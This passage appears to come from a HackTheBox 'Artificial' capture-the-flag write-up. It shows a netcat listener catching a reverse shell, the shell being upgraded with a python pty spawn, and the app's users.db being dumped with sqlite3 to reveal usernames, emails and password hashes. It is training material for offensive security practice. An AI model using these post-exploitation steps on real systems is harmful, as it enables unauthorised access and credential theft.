 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


```
──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.148.48] 39234
/bin/sh: 0: can't access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
app@artificial:~/app$ ls
ls
app.py  instance  models  __pycache__  static  templates
app@artificial:~/app$ 

```

Go to the instance directory and open the .db file using SQLite.

```
cd instance
```
```
sqlite3 users.db
```
```
.tables
```
```
select * from user;
```

```
app@artificial:~/app$ ls
ls
app.py  instance  models  __pycache__  static  templates
app@artificial:~/app$ cd instance
cd instance
app@artificial:~/app/instance$ ls
ls
users.db
app@artificial:~/app/instance$ sqlist3 users.db
sqlist3 users.db
sqlist3: command not found
app@artificial:~/app/instance$ sqlite3 users.db
sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
model  user 
sqlite>     

sqlite> select * from user; 
select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|hello|hello@gmail.com|5d41402abc4b2a76b9719d911017c592
sqlite> 
```
